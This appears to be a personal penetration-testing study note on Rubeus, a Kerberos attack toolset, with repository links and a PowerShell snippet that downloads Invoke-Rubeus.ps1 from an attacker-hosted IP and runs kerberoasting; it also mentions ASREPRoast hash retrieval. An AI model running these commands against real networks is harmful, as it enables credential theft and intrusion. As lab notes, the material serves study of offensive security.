 public:: true

- ```
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
  
    v2.3.0
  ```
  Rubeus is a C# toolset for raw Kerberos interaction and abuses.
- Official [repository](https://github.com/GhostPack/Rubeus)
- Can be [executed from PowerShell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell).
	- Kali provides a `.ps1` launcher which embeds a pre-compiled Rubeus PE.
	  `/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Rubeus.ps1`
	  Or it can be downloaded from [here](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1).
	- Something like the following commands might do the trick
	  ```powershell
	  powershell -c "Invoke-WebRequest 'http://192.168.45.183:8000/Invoke-Rubeus.ps1' -OutFile 'Invoke-Rubeus.ps1'"
	  .\Invoke-Rubeus.ps1 -Command “kerberoast /stats”
	  ```
		- TODO try this^ out
- Retrieve [[ASREPRoast]] hashes
  id:: 655cede6-f368-47a0-ba38-5d1cb32ab48f
  {{embed ((655cf178-e37d-4ab0-9e2b-e16c2ff7c94f))}}